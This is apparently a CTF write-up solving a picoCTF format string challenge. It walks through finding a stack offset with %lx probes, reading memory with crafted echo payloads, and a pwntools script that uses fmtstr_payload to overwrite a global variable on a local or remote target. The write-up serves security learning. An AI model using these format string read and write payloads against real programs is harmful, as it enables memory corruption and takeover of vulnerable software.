 # format string 2
![image](https://github.com/JosephB10/CTF-Writeups/assets/105746932/ab7a3f9a-12e8-41fc-a78b-16b79bd42b77)
## Hints
- pwntools are very useful for this problem!
## Solution
You are given a binary to practice on, the source code, and a remote instance to get the flag from.
<br>
The vulnerability is again a format string error where the format string isn't specified, allowing memory read/writes.
<br>
This time you need to change a global variable from `!sus` to `flag`.
- First things first you need to find memory location of the global variable in order to be able to write to it
- When opening `gdb` and `disas` main, it immediately shows up in the comments on the side that the global variable is at mem location `0x404060`
- So that is where we need to write `flag` to

Then because it's a global variable and not on the stack, we need to be able to jump to an arbitrary memory location chosen by us.
- We can do this because our inputted information (from `scanf`) is on the stack
- So we can provide a memory address as an input, and then use that value to point us anywhere
- I wanted to test this arbitrary memory reading, so I spent most of my time trying to get this to work even though it didn't help me with the memory write

<br><br>
## Arbitrary Memory Read (NOT NECESSARY)
- This isn't the best way to find offset, but it worked for me
  - Entering a repeating `%lx.%lx.` prints the first 5 registers used by printf and then starts reading off the stack (`lx` 64 bit, `x` for 32 bit)
    - You can paste as many `%lx` as your buffer has room for
    - Then I copy pasted the resulting output into cyberchef's `from hex` field
    - You can count the memory blocks up until you get your first "%lx" to know what the offset is
  - The goal then is to provide the program a string with a memory location and the format string to read from that memory location
  - Something like `AAAA%14$s` where you replace AAAA with the mem address
  - With a rough offset you can use the following to debug memory reads (I was getting seg-faults) 
    -  `echo -e 'AAAA%14$s' | ./vuln`
    - `AAAAA` can be anything, `14` is the offset and the `s` tells it to read the string from the memory location
    - Then I had to make sure my kali linux was generating seg fault crash reports
      - https://jvns.ca/blog/2018/04/28/debugging-a-segfault-on-linux/
      - `ulimit -c unlimited`
      - `sudo sysctl -w kernel.core_pattern=/tmp/core-%e.%p.%h.%t`
      - Now it would write a `core` file to `tmp` that I could use with gdb to see the segfault data
    - `gdb ./vuln /tmp/core123123123...` opened up gdb so I could examine the details of the seg-fault
    - https://www.skullsecurity.org/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail
    - `print/x $rdi`   ($edi on 32 bit) told me the value of the `rdi` register, which if I got the offset right, would be the value I had written (`AAAA`)
    - So I could experiment with feeding the program different values and then seeing what it got
      - `echo -e 'x60\x40\x40\x00\x00%14$s' | ./vuln` was what I was trying and instead of it trying to access the memory address `0x404060` it was showing in `rdi` that values of `%14s` were getting put into the same memory block as my mem address
      - `echo -e '%15$5.5s\x60\x40\x40\x00\x00' | ./vuln`
        - I fixed it by moving the format string input to the front, and then choosing 1 higher offset so it would read the next memory block, which was now holding my mem address bracketed by null bytes
        - This resulted in a successful memory read of the `sus` variable `Here's your input:  sus!@@`



<br>Yay! On to memory writing now
       
<br><br>
## Arbitrary Memory Write
- https://cs155.stanford.edu/papers/formatstring-1.2.pdf
- https://lettieri.iet.unipi.it/hacking/format-strings.pdf
- There's a lot of information out there about constructing a payload that will write to the memory address you want, but it is quite the task and troubleshooting it would be quite tedious
- Rather then that I used a `pwntools` module that formatted the payload for me
```
#Import pwntools
from pwn import *

#Get the system architecture for fmtstr_payload
context.binary = './vuln'

#Offset of 14, memory address, value to be written, extra padding needed
payload = fmtstr_payload(14, {0x404060:0x67616c66}, 0)
print(payload)


#Comment out local or remote
p = process("./vuln")
#p = remote("rhea.picoctf.net", 52350)

#Write EVERYTHING
context.log_level = 'debug'

#After receiving ?, send the payload
p.sendlineafter(b'?', payload) 

#Receive and decode what is sent back by the program
print(p.recvall().decode("latin-1"))
```
<br><br>
Feeding `fmtstr_payload` the offset (14), the memory address to the value I wanted to change (0x404060), and the new value I wanted (0x67616c66 (flag)) gave me the payload I needed to perform a memory write.
<br><br>
I did run into trouble here because it kept giving back a payload formatted for 32 bit. 
<br>So I added the line `context.binary = './vuln'` which automatically updated `fmtstr_payload` with the correct architecture.

<br><br>
Running the script on the remote instance gave the flag.











